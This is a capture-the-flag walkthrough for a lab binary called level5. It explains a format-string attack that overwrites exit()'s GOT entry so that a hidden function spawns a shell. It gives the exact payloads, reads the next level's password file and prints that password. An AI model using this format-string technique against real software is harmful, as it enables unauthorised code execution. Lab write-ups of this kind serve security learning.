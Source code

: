 # Level5 Walkthrough

## Analyzing the Program with GDB

1. **Disassemble the program functions**:
   Using the command `disas`, we found that the program uses three functions :
   - o : allocates 24bytes on the stack, then calls the function system that executes the function stored at 0x80485f0 (/bin/sh) then exits
   - n : allocates 516bytes on the stack, reads a maximum of 512bytes on stdin then uses printf to print the string red using fgets and exits
   - main : executes n()

## Running the program

1. **Execute the Program with the Correct Input**:  
   We ran the program with the following command:  
   ```bash
   ./level5
   ```
    The program is waiting for the user to insert an input, prints it back and then exits properly.

2. **Trying to overflow the RET value**
    The idea is to create an overflow on n() and to redirect its return adress to 0x080484a4 which is the one of o()

    As n() does not return but calls exit() instead, we have to find exit()'s address, which is : 0x8049838
    We found this address with the command :
    objdump -R ./level5 | grep exit. 

    When n() will be called in the main(), o() will takeover and will execute the command /bin/sh which will allow us to read the password for the next level

    We will first use the Format String Attack to find where is the address of `exit` :
    python -c "print '\x38\x98\x04\x08' + '%x '*4" | ./level5
    We find : 
    8200 b7fd1ac0 b7ff37d0 8049838

    Then we use the same exploit to modify the adress of `exit` by the address of o()g, 134513824 is specific here as it represents the number of characters needed to make the written value equal to the address of o() :
    ```python -c "print '\x38\x98\x04\x08' + '%134513824x%4\$n'" > /tmp/exploit```
    ```cat /tmp/exploit - | ./level5```
    Once you're in the program, just check level6/.pass by running this command :
    ```cat /home/user/level6/.pass``` 

## Moving to level6

1. **Swith User to level6**:
    Run ```su level6```

2. **Authenticate with the Password**:
    We used the password we found.
    d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
